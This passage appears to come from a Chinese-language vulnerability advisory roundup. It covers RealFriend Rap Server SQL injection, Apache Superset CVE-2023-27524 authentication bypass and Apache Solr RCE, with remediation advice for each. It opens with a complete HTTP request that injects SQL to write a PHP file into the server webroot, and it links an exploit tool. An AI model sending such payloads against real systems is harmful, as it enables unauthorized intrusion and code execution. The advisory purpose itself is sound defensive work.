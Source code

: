
payload

    
    
    GET /AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C2.php%22+--+-&cmd=UserLogin HTTP/1.1  
    Host: xx.xx.xx.xx  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Connection: close  
    Cookie: CookieLanguageName=ZH-CN; CookieAuthType=0  
    Upgrade-Insecure-Requests: 1  
    

 **修复建议**

  1. 避免将该系统开放至公网。
  2. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，建议您在升级前做好数据备份工作，避免出现意外，酌情升级至安全版本：http://soft.realor.cn:88/Gwt7.0.4.1.exe

# 13、 **Apache Superset 身份认证绕过漏洞**

这个漏洞是由于默认配置的 SECRET_KEY 不安全所导致的。如果管理员没有根据安装说明更改默认配置的
SECRET_KEY，则攻击者可以通过身份验证并访问未经授权的资源或执行恶意代码。  
 **漏洞标签：** 利用链成熟  
 **漏洞编号：** CVE-2023-27524  
 **漏洞类型：** 认证绕过  
 **受影响版本：**

  1. Apache Superset <= 2.0.1

 **利用方法：**  
漏洞利用工具 ：https://github.com/horizon3ai/CVE-2023-27524  
 **修复建议**

  1. 修改默认的 SECRET_KEY,参考官方文档:https://superset.apache.org/docs/installation/configuring-superset/#secret_key-rotation
  2. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本。https://downloads.apache.org/superset/

# 14、 **Apache Solr 代码执行漏洞**

Solr 以 Solrcloud 模式启动且可出网时，未经身份验证的远程攻击者可以通过发送特制的数据包进行利用，最终在目标系统上远程执行任意代码。  
 **漏洞标签：** 利用链成熟、涉及重点系统、服务器权限相关  
 **漏洞编号：** CNVD-2023-27598  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. 8.10.0 <= Apache Solr < 9.2.0

 **利用方法：**  
使用postCommit来命令执行
